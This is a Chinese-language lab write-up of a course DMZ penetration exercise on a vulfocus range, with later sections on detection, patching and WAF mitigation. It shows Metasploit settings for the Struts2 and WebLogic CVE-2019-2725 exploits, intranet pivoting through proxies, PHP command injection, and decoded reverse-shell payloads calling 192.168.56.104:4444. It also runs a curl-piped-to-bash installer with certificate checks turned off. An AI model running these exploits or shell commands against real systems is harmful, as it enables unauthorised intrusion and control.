



# DMZ实验部分
## DMZ环境搭建

### 网卡创建

建立 dmz 和核心网两个网卡
| 网卡名称 | 子网 | 网关 | 范围 | 驱动 | 启用IPv6 | 
| ---------- | -------- | -------- | -------- | -------- | -------- | 
| dmz | 192.170.84.0/24 | 192.170.84.1 | local | bridge | false | 
| 核心网 | 192.170.85.0/24 | 192.169.85.1 | local | bridge | false | 
    


### DMZ场景编排

### 手动编排
无法直接导入场景编排压缩包，于是选择手动编排

查看 `DMZ.zip` 中的 `raw-content.json` 可看到三个镜像
```
cat raw-content.json | jq . | grep image_name
``` 


进入 `vulfocus` → 镜像管理 → 镜像 → 查询 搜索并下载上述三个镜像

首个镜像存在问题，需要替换为 `c4pr1c3/vulshare_nginx-php-flag`

进入 `ctf-games/fofapro/vulfocus/DMZ`  拉取此镜像，再添加进 `vulfocus` 中
```
docker pull c4pr1c3/vulshare_nginx-php-flag
```

完成镜像拉取后，进入 场景管理 → 环境编排管理 可以在此页面进行编排，详情如图所示


点击发布场景便可在场景模块中启动 dmz 场景


### 问题解决
1. `vulfocus` 显示内部错误无法登录 

   可能是因为其后台 `Redis` 服务器未能正常启动或崩溃，导致 Vulfocus 无法正确维护会话信息或其他数据存储

   进入 `vulfocus-vul-focus-1` 容器内运行 `redis-server`

   ```
   docker exec -it vulfocus-vul-focus-1 redis-server &
   ```
2. 启动场景时显示 `Encountered errors while bringing up the project` 

   查看运行中的容器，显示所有容器（包括已停止的容器）
   ```
   docker ps
   docker ps -a
   ```
   

   发现只正常开启了三个镜像，vulfocus/weblogic-cve_2019_2725:latest 容器启动后错误退出

   增加 Linux 文件描述符限制
   ```
   ulimit -n
   ```

   修改 `etc/docker/daemon.json` 文件，添加以下部分
   ```
   "default-ulimits": {
    "nofile": {
            "Name": "nofile",
            "Hard": 64000,
            "Soft": 64000
         }
    }
   ```
   

   重装并更新 `docker` 到28.0版本 
3. 启动场景显示环境服务不存在 

   再次查看运行中的容器，显示所有容器（包括已停止的容器），但发现五个镜像都已正常开启 

   选择重新拉取镜像并编排场景但没用

   于是共享组员 `wjh` 搭建的场景

## DMZ 入口靶标

通过 `192.168.56.105:26106` 进入靶标页面，注意记录下端口号 

进入 `attacker`，更新并初始化 `metasploit`
```
sudo apt install -y metasploit-framework
sudo msfdb init
```


启动 `msfconsole` 确认已连接 `pgsql` 并建立工作区
```
msfconsole
db_status
workspace -a vulfocus
```

漏洞为 `struts2` 代码执行漏洞，所以直接搜索
```
search struts2 type:exploit
```


查看 `exp` 详情，可以直接通过搜索结果编号，也可以通过搜索结果的 `Name` 字段
```
info 2
```

使用 上述 `exp` 并查看可用的 `exp payloads`
```
use exploit/multi/http/strus2_multi_eval_ognl
show options
```


使用合适的 `exp payload` 并配置 `exp` 参数
```
set payload payload/cmd/unix/reverse_bash
set RHOSTS 192.168.56.105   #靶机 IP
set RPORT 26106     #靶机目标端口  
set LHOST  192.168.56.104   #攻击者主机 IP
show options  # 再次检查 exp 配置参数列表
```
<div style="display: flex; gap: 10px;">
  
  
</div>
<br>

进行攻击如果攻击成功，查看打开的 `reverse shell`
```
exploit -j
sessions -l     #查看打开的 reverse shell
sessions -i 1   #进入会话 1
id   #无命令行交互提示信息
ls /tmp    #得到 flag
```


## 发现靶标2、3、4

```ctrl+z```将session放入后台运行

对目标网络进行扫描

```
db_nmap -p 26106,80,22 192.168.56.105 -A -T4 -n
```


扫描的结果显示22,80,26106端口均为开放状态

扫描后再查看```hosts```和```service```的情况


```hosts```内容补充完整，```services```内容也得到了扩充

对shell进行升级，升级为```Meterpreter Shell```


进入升级后的shell并查看当前的网络配置，如下图所示：


由上图可以看出，入口靶机的内部地址为```192.170.84.5```，新网段的地址为```192.170.84.0```

下面添加和查看路由规则，让攻击者主机能够通过已经控制的靶机访问 192.170.84.0/24 内部网络。

```
run autoroute -s 192.170.84.0/24
run autoroute -p
```


退出当前的session进行端口扫描

搜索模块并选择需要的模块进行TCP端口扫描


设置ip地址、指定扫描端口并启用多线程扫描，寻找内网存活主机


```
set RHOSTS 192.170.84.2-254 由于已知网关 192.170.84.1，推测同一网段中的其他主机 IP 在 192.170.84.2-254 之间，因此指定扫描整个网段。
set PORTS 7001 指定扫描 7001 端口，加快扫描速度。
set THREADS 10 启用多线程扫描，一次性同时扫描多个 IP，提高扫描效率。
```


输入```exploit```进行扫描


可以看到扫描到的ip被添加到了```hosts```表与```services```表中


搜索并使用模块```socks_proxy ```


用命令```run -j```启动

启动后在kali-attacker中对1080端口服务开放情况进行检查：

```
sudo lsof -i tcp:1080 -l -n -P
```


可以看到1080端口开放正常，然后用以下命令对配置文件进行编辑，将socks代理改为```socks5 127.0.0.1 1080 ```，使得攻击流量可以通过靶机访问内网，如下图所示

```
sudo vim /etc/proxychains4.conf
```


通过代理（ProxyChains）执行 TCP 端口扫描，检测 192.170.84.2-5 这些主机的 7001 端口是否开放




可以看到扫描结果都为filter (过滤)

然后进入入口机的shell中，执行以下命令获取指定网页的内容

```
curl http://192.170.84.2:7001 -vv
```


由上图可以看出，返回结果均为404，目标服务器有 Web 服务，但 7001 端口可能未提供有效页面，表明网络层是连通的

## 攻击内网第一层靶标

确认目标后，使用以下命令搜索已知漏洞类型来进行攻击：

```
search cve-2019-2725
use name
```

使用 `show options` 命令来查看需要设置的参数，如下图所示


与入口靶标的参数同理，修改 RHOSTS 和 LHOSTS ，然后使用 `exploit` 命令攻破第一层靶标，得到第二个 flag


接下来替换目标地址 RHOSTS 继续攻破下一个靶标，得到 flag


同样方式攻破第一层靶标 3 得到 flag


入口靶标和第一层靶标的 3 个 shell 总结如下


## 攻击内网第二层靶标

执行以下命令测试第一层靶标的 3 个 shell 找到拥有双网卡的靶机
`sessions -c "ifconfig" -i 3,4,5 #3、4、5为第一层三个shell的id`

测试结果为 shell session 5 为拥有双网卡的靶机，且 ip 为 192.170.84.3


于是升级并进入 session 5，并确认第二层靶标的网段是 `192.169.85.0/24`


确认靶标的网段后回到 attacker 扫描第二层靶标

```
proxychains sudo nmap -vv -n -p 80 -Pn -sT 192.169.85.3
```

结果显示端口被过滤，于是执行以下命令扫描该网段的其他 ip

```
proxychains sudo nmap -vv -n -p 80 -Pn -sT 192.169.85.2-254 | grep open
```


进入第一层靶机升级后的 shell 中，尝试使用 wget 来枚举并找到可能开放的端口，在尝试 192.169.85.2 时成功收到了 response

```
wget http://192.169.85.2/
```


于是再次wget该网页并保存和显示获取到的网页内容

```
wget http://192.169.85.2 -O /tmp/result && cat /tmp/result
```


可以看到打印出来的获取内容是 `index.php?cmd=ls /tmp` ，所以该页面是 php 文件，可以通过 cmd 来传参，于是进行以下尝试

```
wget "http://192.169.85.2/index.php?cmd=ls /tmp" -O /tmp/result && cat /tmp/result
```

命令成功执行并得到了flag如下


## DMZ 入口靶标漏洞利用检测
* 由于已知漏洞类型，在进行攻击实验前，为方便分析和确认 Struts2 代码执行漏洞是否存在，以及是否可以成功利用该漏洞进行远程代码执行分析，可以对 docker 对应的容器抓取流量包。
    ```
    docker ps #正在启动的容器列表
    container_name="XXXXXX" #自定义变量赋值需要抓取流量的容器的ID或名称
    docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump #运行一个临时 kaazing/tcpdump 容器。让该容器监听 ${container_name} 容器的网络流量。将抓包数据存放在 /tcpdump 目录，并映射到宿主机的 ${PWD}/tcpdump/${container_name}。容器完成任务后自动删除（--rm）
    ```

    

1. **过滤 HTTP 包：** Struts2 代码执行漏洞通常利用 HTTP 请求触发,同时过滤出 HTTP 包可以排除无关的数据流量。
   * 攻击者 ip：192.168.56.104
   * HTTP 头部：POST / HTTP/1.1 → 通常用于提交数据，符合 Struts2 攻击特征
   
2. **追踪流：** 看到完整的 HTTP 请求（攻击 payload）及其服务器返回的响应。
   
   * 目标地址：192.168.56.105:26106
3. **对请求体进行URL解码：** ``%25 ``实际上是`` % ``的 URL 编码
   
   * 因此 ``id=%25{...}`` 解析后变成：``id=%{（OGNL 代码执行 payload）}``->攻击者正在利用 **Struts2 OGNL 表达式解析漏洞**
   * 攻击者想要执行的shell命令：``bash -c '{echo,YmFzaCAtYyAnMDwmMzQtO2V4ZWMgMzQ8Pi9kZXYvdGNwLzE5Mi4xNjguNTYuMTA0LzQ0NDQ7c2ggPCYzNCA+JjM0IDI+JjM0Jw==}|{base64,-d}|bash'``
4. **对Base64 编码的shell命令进行解码：** 
   

   解码后为：``bash -c '0</dev/tcp/192.168.56.104/4444;sh <&3 >&3 2>&3'``
   * 攻击者尝试在目标服务器上创建一个反向 Shell 连接，将 Shell 的输入、输出和错误信息都通过 TCP 连接重定向到攻击者的服务器``192.168.56.104:4444``
5. **过滤找到攻击者连接反向 shell 后执行的命令：** 设置过滤条件``ip.src == 192.168.56.104 && tcp.port == 4444``，追踪 TCP 流后能得到攻击者输入的命令和服务器返回的响应。
   
   * 目标服务器（红色语句）成功执行攻击者发送的命令（蓝色语句）
## DMZ 网第一层靶标的漏洞利用检测
1. **通过 ARP 包检测攻击者扫描行为** 大概可以得出
   
   * ``192.170.84.5`` 在持续发送 ARP 广播请求
   * 部分进行了 ARP 相应，表示该主机存活，暴露了其 IP 和 MAC 地址
   * 由于已知``192.170.84.5``是入口 IP,遭到了攻击者（192.168.56.104）的攻击，很有可能其在之后会对其他内网暴露存活的 IP 进行攻击。 
2. **通过端点统计识别交互的 IP：** 确定网络中哪些 IP 参与了流量交互。
   
   
   
   可以看出：
      * ``192.170.84.5`` 发送和接收的数据包最多: 表明 192.170.84.5 可能是攻击者或受感染的主机，进行了大量的网络交互。符合实际情况
      * ``192.168.56.104``也是主要通信
      * ``192.170.84.2``、``192.170.84.3``、``192.170.84.4`` 参与了流量交换：数据量较少，可能是攻击目标，或者仅仅是被扫描的设备。
3. **筛选其中被扫描的 IP：**
   * 192.170.84.2:
        
   * 192.170.84.3:
        
    * 192.170.84.4:
        
    * 均出现了``192.170.84.2``和7001端口的 TCP 三次握手建立连接。
4. **对可疑 HTTP POST 请求分析：**
   
   * **URL 可疑：**``/_async/AsyncResponseService``这个 API 端点属于 WebLogic 的异步服务，曾在多个 CVE（安全漏洞）中被利用。
   * **SOAP/XML Payload 可疑:** SOAP 协议 用于与 WebLogic 服务器通信，这通常用于企业级 Java Web 服务。
   * 同时在工作上下文段直接包含了恶意 Java 代码,利用 Java 反序列化漏洞,尝试建立反向 shell，让受害者 ``192.170.84.4 ``连接到`` 192.168.56.104:4444``，从而允许攻击者控制服务器。
        ```
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <void class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="3">
            <void index="0"><string>/bin/bash</string></void>
            <void index="1"><string>-c</string></void>
            <void index="2"><string>bash -c '0&lt;&amp;103-;exec 103&lt;&gt;/dev/tcp/192.168.56.104/4444;sh &lt;&amp;103 &gt;&amp;103 2&gt;&amp;103'</string></void>
        </array>
        <void method="start"/>
        </void>
        </work:WorkContext>
        ```
5. **过滤找到攻击者连接反向 shell 后执行的命令：**

## DMZ 内网第二层靶标的漏洞利用检测
针对第二层内网的抓包需要更换抓取的容器，至有双网卡的c4pr1c3/vulshare_nginx-php-flag容器进行抓包。这里我们的双网卡靶标为192.170.84.3
```
docker ps #正在启动的容器列表
container_name="XXXXXX" #自定义变量赋值需要抓取流量的容器的ID或名称
docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump 
```
同样追踪流，看到完整的攻击 payload及其服务器返回的响应。


## DMZ 入口靶标的漏洞修复，并验证了修复效果

修复该漏洞需要将struts2的版本进行升级，将struts2更新至2.5.33

首先通过以下命令进入容器

```
docker exec -it id bash 
```

在容器内编辑```pom.xml```文件，将version改为2.5.33，避免被已知漏洞利用：

* 官方已修复早期版本的RC 漏洞，确保Apache Struts2解析OGNL时不会触发远程代码执行

* 2.5.33 是 最新的 2.5 分支版本，避免了早期版本的漏洞

执行```mvn clean install```更改依赖


更新成功后的输出如下图所示：


关闭防护规则再次进行测试：


可以看到没有WAF防护的情况下，也无法实现反弹shell，说明漏洞已经被修复，攻击无法成功

## DMZ 漏洞缓解
通过 `Chaitin SafeLine WAF` 配置反向代理，让前往服务器的流量都经过代理服务器，进行过滤防护

下载安装并运行 `Chaitin SafeLine WAF`
```
sudo bash -c "$(curl -fsSLk https://waf-ce.chaitin.cn/release/latest/setup.sh)"
```

通过所给的链接进入

在防护应用中添加应用以此配置上游服务器 

`ip` 是 `docker` 的网关,在开启防火墙的情况下也可以通过 `WAF` 访问指定的端口

配置过滤规则 


通过对 `POST` 包中的 `id` 变量 进行分析，拦截包含 `bash` 的流量，实现对入口靶标的保护

将其他端口关闭，只保留所需要的端口，并查看防火墙配置情况 

删除 8080 到场景入口端口的映射 

发现已经无法通过 10229 访问入口端口了，只能经由配置好的反向代理通过 8080 端口访问 

测试拦截的效果，当禁用防护规则时，在开启监听的巩固机上连接靶机的 `shell`,响应表明我们发送的请求被拦截了 

以上漏洞缓解仅仅实现了过滤拦截数据流量，但如果对敏感命令进行编码也可以绕过，并未从根本上修复漏洞。

## 参考资料：

* [网络安全(2023) 综合实验_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1p3411x7da/?vd_source=6c62cb1cac14ec9c6d9e57e7ba2e13c9)

* [网络安全](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/title-slide)

